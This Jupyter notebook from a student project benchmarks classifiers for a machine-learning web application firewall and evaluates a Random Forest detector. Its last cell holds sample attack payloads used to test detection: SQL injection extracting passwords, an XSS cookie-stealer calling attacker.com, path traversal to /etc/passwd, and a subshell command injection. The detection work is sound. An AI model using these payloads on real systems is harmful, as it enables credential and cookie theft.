# PBL6 — PHASE 5: MULTI-MODEL BENCHMARKING & RANDOM FOREST (CHAMPION MODEL)
## Web API Security Platform & Autonomous Red Teaming on Distributed Cyber Range

> **Tác giả:** Thành viên A (Tech Lead & Defense AI/ML Engineer)
> **Cơ sở khoa học:** [Ref 08] Wiley SCN 2015, [Ref 09] IEEE Access 2024, [Ref 15 & 16] OWASP Benchmark Project
> **Mục đích:** Khảo sát thực nghiệm 5 trường phái thuật toán trên tập 20.000 mẫu (vector 17 đặc trưng), trực quan hóa ma trận nhầm lẫn (Confusion Matrix) và bảng đóng góp đặc trưng (Feature Importance).

In [1]:
# 1. Setup paths & imports
import json
import sys
from pathlib import Path

import joblib
import matplotlib.pyplot as plt
import numpy as np
import pandas as pd
import seaborn as sns
from sklearn.metrics import confusion_matrix

# Ensure ml-engine and gateway modules are in path
cur = Path.cwd().resolve()
repo_root = cur
for p in [cur, cur.parent, cur.parent.parent]:
    if (p / 'data').exists() and (p / 'gateway').exists():
        repo_root = p
        break

ml_dir = repo_root / 'ml-engine'
for p in [str(repo_root), str(ml_dir)]:
    if p not in sys.path:
        sys.path.insert(0, p)

from features.extractor import CANONICAL_FEATURE_NAMES, extract_17_features  # noqa: E402
from models.train_rf import load_combined_dataset, split_dataset  # noqa: E402

print('Environment initialized successfully!')

Environment initialized successfully!


In [2]:
# 2. Load the 20,000 requests dataset
data_dir = repo_root / 'data'
X, y, df_combined = load_combined_dataset(data_dir=data_dir)

print(f'Total Dataset Records: {len(df_combined):,}')
print(f'Feature Matrix X shape: {X.shape}')
print('\nClass Distribution:')
print(pd.Series(y).value_counts())

[2026-09-20 12:51:32] [INFO] [waf.ml_engine.train_rf]: Loading datasets from C:\Study\HocKy6\PBL6\data...


[2026-09-20 12:51:32] [INFO] [waf.ml_engine.train_rf]: Combined dataset: 20,000 records (10,000 Benign, 10,000 Attacks)


[2026-09-20 12:51:32] [INFO] [waf.ml_engine.train_rf]: Extracting 17-dimensional canonical feature vectors...


[2026-09-20 12:51:34] [INFO] [waf.ml_engine.train_rf]: Extracted 20,000 vectors of shape 17 in 1736.34ms (0.0868ms/sample)


Total Dataset Records: 20,000
Feature Matrix X shape: (20000, 17)

Class Distribution:
BENIGN               10000
COMMAND_INJECTION     2500
SQLI                  2500
PATH_TRAVERSAL        2500
XSS                   2500
Name: count, dtype: int64


,model_name,paradigm,f1_macro,accuracy,youden_index_j,avg_latency_ms
0,Logistic Regression,Linear Baseline,0.9744,0.9780,0.9643,0.0004
1,Decision Tree (CART),Single Non-linear Tree,0.9960,0.9960,0.9931,0.0003
2,Linear SVM (Calibrated),Max-Margin Classifier,0.9743,0.9783,0.9640,0.0048
3,Random Forest (RF),Bagging Ensemble,0.9993,0.9993,0.9989,0.0368
4,XGBoost (GBDT),Boosting Ensemble,0.9997,0.9997,0.9995,0.0039
5,Multi-Layer Perceptron (MLP),Neural Network (DL),0.9838,0.9863,0.9709,0.0020


C:\Users\ADMIN\AppData\Local\Temp\ipykernel_2704\1963882955.py:13: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `y` variable to `hue` and set `legend=False` for the same effect.

  sns.barplot(data=df_bench, x='f1_macro', y='model_name', ax=ax1, palette='Blues_d')
C:\Users\ADMIN\AppData\Local\Temp\ipykernel_2704\1963882955.py:18: FutureWarning: 

Passing `palette` without assigning `hue` is deprecated and will be removed in v0.14.0. Assign the `y` variable to `hue` and set `legend=False` for the same effect.

  sns.barplot(data=df_bench, x='avg_latency_ms', y='model_name', ax=ax2, palette='Reds_d')




In [3]:
# 3. Load Multi-Model Benchmark Results & Plot Comparison
benchmark_file = repo_root / 'ml-engine' / 'artifacts' / 'benchmark_summary.json'

if benchmark_file.exists():
    with open(benchmark_file, encoding='utf-8') as f:
        b_results = json.load(f)
    df_bench = pd.DataFrame(b_results)
    display(df_bench[['model_name', 'paradigm', 'f1_macro', 'accuracy', 'youden_index_j', 'avg_latency_ms']])

    # Plot F1-Macro vs Inference Latency
    fig, (ax1, ax2) = plt.subplots(1, 2, figsize=(14, 5))

    sns.barplot(data=df_bench, x='f1_macro', y='model_name', ax=ax1, palette='Blues_d')
    ax1.set_title('F1-Score (Macro) Across 5 Candidate Models')
    ax1.set_xlim(0.85, 1.01)
    ax1.set_xlabel('F1-Macro')

    sns.barplot(data=df_bench, x='avg_latency_ms', y='model_name', ax=ax2, palette='Reds_d')
    ax2.set_title('Inference Latency per Sample (ms) on CPU')
    ax2.axvline(15.0, color='r', linestyle='--', label='Max Latency Budget (15ms)')
    ax2.set_xlabel('Latency (ms)')
    ax2.legend()

    plt.tight_layout()
    plt.show()
else:
    print('Benchmark summary not yet found. Please run train_rf.py first.')

[2026-09-20 12:51:34] [INFO] [waf.ml_engine.train_rf]: Dataset Stratified Split 70/15/15: Train=14,000, Val=3,000, Test=3,000




In [4]:
# 4. Load Champion Random Forest Model and Plot Confusion Matrix
model_file = repo_root / 'ml-engine' / 'artifacts' / 'rf_model.joblib'
champion_rf = joblib.load(model_file)

# Evaluate on Test Set
X_train, y_train, X_val, y_val, X_test, y_test = split_dataset(X, y)
y_pred = champion_rf.predict(X_test)
classes = list(champion_rf.classes_)

cm = confusion_matrix(y_test, y_pred, labels=classes)

plt.figure(figsize=(8, 6))
sns.heatmap(cm, annot=True, fmt='d', cmap='Blues', xticklabels=classes, yticklabels=classes)
plt.title('Champion Random Forest — Confusion Matrix (Test Set N=3,000)')
plt.xlabel('Predicted Label')
plt.ylabel('Ground Truth Label')
plt.show()



In [5]:
# 5. 17-Dimensional Feature Importance Ranking (Wiley SCN 2015)
importances = champion_rf.feature_importances_
feat_df = pd.DataFrame({
    'Feature': CANONICAL_FEATURE_NAMES,
    'Importance': importances
}).sort_values('Importance', ascending=True)

plt.figure(figsize=(10, 7))
plt.barh(feat_df['Feature'], feat_df['Importance'], color='#047857')
plt.title('17-Dimensional Feature Importance Ranking (Torrano-Gimenez et al. 2015)')
plt.xlabel('Gini Importance Ratio')
plt.grid(axis='x', linestyle='--', alpha=0.7)
plt.show()

In [6]:
# 6. Live Inference Quick Test with Real-time Predictions
import urllib.parse

test_payloads = [
    ('Benign Normal Request', '/api/books/12/read/?page=3'),
    ('SQL Injection Union Attack', "admin' UNION SELECT 1, username, password FROM users--"),
    ('Cross-Site Scripting (XSS)', "<script>fetch('http://attacker.com/steal?c='+document.cookie)</script>"),
    ('Path Traversal Obfuscated', "/download/?file=..%2f..%2f..%2fetc%2fpasswd%00.jpg"),
    ('Command Injection Subshell', "127.0.0.1 | $(cat /etc/passwd | base64)")
]

print(f'{"Payload Description":<30} | {"Predicted Class":<20} | {"Confidence":<10}')
print('-' * 70)
for desc, payload in test_payloads:
    # Canonical normalization matching Gateway WAF pipeline (InputNormalizer)
    normalized = urllib.parse.unquote(payload)
    vec = extract_17_features(normalized).to_numpy().reshape(1, -1)
    pred_cls = champion_rf.predict(vec)[0]
    prob = float(np.max(champion_rf.predict_proba(vec)))
    print(f'{desc:<30} | {pred_cls:<20} | {prob*100:.2f}%')


Payload Description            | Predicted Class      | Confidence
----------------------------------------------------------------------
Benign Normal Request          | BENIGN               | 80.96%
SQL Injection Union Attack     | SQLI                 | 100.00%
Cross-Site Scripting (XSS)     | XSS                  | 100.00%
Path Traversal Obfuscated      | PATH_TRAVERSAL       | 100.00%
Command Injection Subshell     | PATH_TRAVERSAL       | 77.00%
